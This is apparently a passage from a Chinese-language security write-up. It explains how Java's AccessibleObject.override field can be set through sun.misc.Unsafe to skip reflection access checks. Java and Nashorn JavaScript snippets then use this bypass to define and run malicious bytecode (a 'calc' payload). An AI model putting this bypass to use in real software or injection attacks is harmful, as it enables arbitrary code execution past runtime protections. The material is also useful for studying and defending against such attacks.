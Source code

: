 ### override field Bypass

回看`setAccessible`的调用逻辑

```java
@Override
@CallerSensitive
public void setAccessible(boolean flag) {
    AccessibleObject.checkPermission();
    if (flag) checkCanSetAccessible(Reflection.getCallerClass());
    setAccessible0(flag);
}
```

`checkCanSetAccessible`去判断目标的修饰符、目标类是否对调用类开放...最后返回flag再传给`setAccessible0`

```java
boolean setAccessible0(boolean flag) {
    this.override = flag;
    return flag;
}
```

`setAccessible0`直接将flag赋值给`this.override`，`override`是其父类`AccessibleObject`的属性

因此也可以直接修改`java.lang.reflect.AccessibleObject`的`override`属性

```java
public static void bypassOverride(Object accessibleObject) throws Exception {
    Field f = Class.forName("sun.misc.Unsafe").getDeclaredField("theUnsafe");
    f.setAccessible(true);
    Unsafe unsafe = (Unsafe) f.get(null);
    Field override = Class.forName("java.lang.reflect.AccessibleObject").getDeclaredField("override");
    unsafe.putBoolean(accessibleObject, unsafe.objectFieldOffset(override), true);
}
Class<?> c = Class.forName("java.lang.ClassLoader");
Method method = c.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
bypassOverride(method);
byte[] bytes = getEvilCode("calc");
Class<?> aClass = (Class<?>) method.invoke(Thread.currentThread().getContextClassLoader(), bytes, 0, bytes.length);
aClass.newInstance();
```

```java
String bypass = "var bypass = function(obj){" +
    "var Unsafe = Java.type('sun.misc.Unsafe');" +
    "var field = Unsafe.class.getDeclaredField(\"theUnsafe\");" +
    "field.setAccessible(true);" +
    "var unsafe = field.get(null);" +
    "var overrideField =" +
    "java.lang.Class.forName(\"java.lang.reflect.AccessibleObject\").getDeclaredField(\"override\");" +
    "var offset = unsafe.objectFieldOffset(overrideField);" +
    "unsafe.putBoolean(obj, offset, true);};";
```
